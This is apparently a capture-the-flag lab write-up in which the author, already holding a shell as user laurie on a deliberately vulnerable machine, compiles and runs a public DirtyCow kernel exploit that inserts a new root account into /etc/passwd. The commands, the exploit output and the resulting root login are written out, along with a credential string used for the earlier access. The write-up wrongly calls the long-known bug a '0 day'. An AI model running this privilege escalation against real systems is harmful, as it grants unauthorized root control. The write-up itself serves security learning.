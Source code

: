 continuing from writeup1 where we have a shell access on laurie account using `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

since the system is 5 years old, there are probably multiples vulnerabilities that we can exploit.
one of the most known 0 day is dirtycow, which exploit a race condition in the kernel to gain root access, by allowing writing to read-only files using `mmap`.

there a plenty of implementations of this vulnerability, we will this one `https://github.com/firefart/dirtycow` because it does everything for us, by creating a new root user into /etc/passwd.

```bash
$ gcc -pthread dirty.c -o dirty -lcrypt
$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fi6bS9A.C7BDQ:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
laurie@BornToSecHackMe:~$ su
Password:
firefart@BornToSecHackMe:/home/laurie# whoami
firefart
```

and firefart is now root, with a uid of 0.

